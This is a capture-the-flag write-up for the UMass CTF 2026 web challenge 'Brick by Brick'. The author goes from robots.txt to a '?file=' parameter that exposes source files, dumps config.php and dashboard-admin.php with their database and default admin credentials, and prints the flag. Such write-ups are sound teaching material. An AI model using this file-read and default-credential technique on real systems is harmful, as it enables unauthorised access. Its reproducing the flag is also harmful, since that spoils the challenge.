


# Brick by Brick — UMass CTF 2026

> **Room / Challenge:** Brick by Brick (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** UMass CTF 2026
- **Challenge:** Brick by Brick (web)

---

<p align="center"></p>

## Goal

Find the hidden admin dashboard to get the flag.

## My Solution

The home page doesn't have any links, or any hints:



Therefore I did some basic emuneration and found a existed `robots.txt` file with this content:

```
User-agent: *
Disallow: /internal-docs/assembly-guide.txt
Disallow: /internal-docs/it-onboarding.txt
Disallow: /internal-docs/q3-report.txt

# NOTE: Maintenance in progress.
# Unauthorized crawling of /internal-docs/ is prohibited.
```

Seems like the maintenance source code is hosted public, taking a look at three internal docs files. I found a breakthrough solution for the flag.

In `/internal-docs/it-onboarding.txt`:

```
...
The internal document portal lives at our main intranet address.
Staff can access any file using the ?file= parameter:
...
Credentials are stored in the application config file
for reference by the IT team. See config.php in the web root.
...
```

We can get access to file through the `?file=` query parameter and the credentials is stored in `config.php`. Access `http://brick-by-brick.web.ctf.umasscybersec.org:32769/?file=config.php`:

```php
<?php
// BrickWorks Co. — Application Configuration
// WARNING: Do not expose this file publicly!

// The admin dashboard is located at /dashboard-admin.php.

// Database
define('DB_HOST', 'localhost');
define('DB_NAME', 'brickworks');
define('DB_USER', 'brickworks_app');
define('DB_PASS', 'Br1ckW0rks_db_2024!');

// WARNING: SYSTEM IS CURRENTLY USING DEFAULT FACTORY CREDENTIALS.
// TODO: Change 'administrator' account from default password.

define('ADMIN_USER', 'administrator');
define('ADMIN_PASS', '[deleted it for safety reasons - Tom]');

// App settings
define('APP_ENV', 'production');
define('APP_DEBUG', false);
define('APP_VERSION', '1.0.3');
```

We couldn't get the admin password, however with the same method we can see the source of `dashboard-admin.php`, access `http://brick-by-brick.web.ctf.umasscybersec.org:32769/?file=dashboard-admin.php`:

```php
<?php
session_start();

// Default credentials - intentionally weak for CTF
define('DASHBOARD_USER', 'administrator');
define('DASHBOARD_PASS', 'administrator');
define('FLAG', 'UMASS{4lw4ys_ch4ng3_d3f4ult_cr3d3nt14ls}');
# ...
```

Flag: `UMASS{4lw4ys_ch4ng3_d3f4ult_cr3d3nt14ls}`
